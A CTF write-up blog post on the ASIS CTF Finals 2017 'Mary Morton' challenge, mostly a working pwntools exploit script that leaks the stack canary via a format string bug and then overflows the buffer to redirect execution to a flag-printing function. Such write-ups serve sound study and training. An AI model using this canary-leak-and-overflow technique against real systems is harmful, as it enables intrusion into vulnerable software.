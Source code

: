```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2017/asis-ctf-finals-2017-mary-morton/
  - /blog/2017/09/11/asis-ctf-finals-2017-mary-morton/
date: "2017-09-11T08:09:08+09:00"
tags: [ "ctf", "writeup", "pwn", "asis-ctf" ]
---
```


# ASIS CTF Finals 2017: Mary Morton

他の問題が解けないのでプロが放置してたやるだけをやってお茶を濁した回。

## problem

```
$ nc 146.185.132.36 19153
Welcome to the battle ! 
[Great Fairy] level pwned 
Select your weapon 
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle 

```

## solution

Read the canary with `2. Format String Bug`, then use `1. Stack Bufferoverflow Bug` to jump the function which calls `system("/bin/cat ./flag");`.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='146.185.132.36')
parser.add_argument('port', nargs='?', default=19153, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='./mary_morton')
args = parser.parse_args()
context.log_level = args.log_level
context.binary = args.binary
elf = ELF(args.binary)

system_cat_flag = 0x4008da
p = remote(args.host, args.port)

menu = '''\
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle 
'''

# Format String Bug
p.sendlineafter(menu, '2')
p.sendline('%23$p')
canary = int(p.recvline(), 16)

# Stack Bufferoverflow Bug
payload = ''
payload += 'A' * 0x88
payload += p64(canary)
payload += 'B' * 8
payload += p64(system_cat_flag)
p.sendlineafter(menu, '1')
p.sendline(payload)

p.recvall()
```
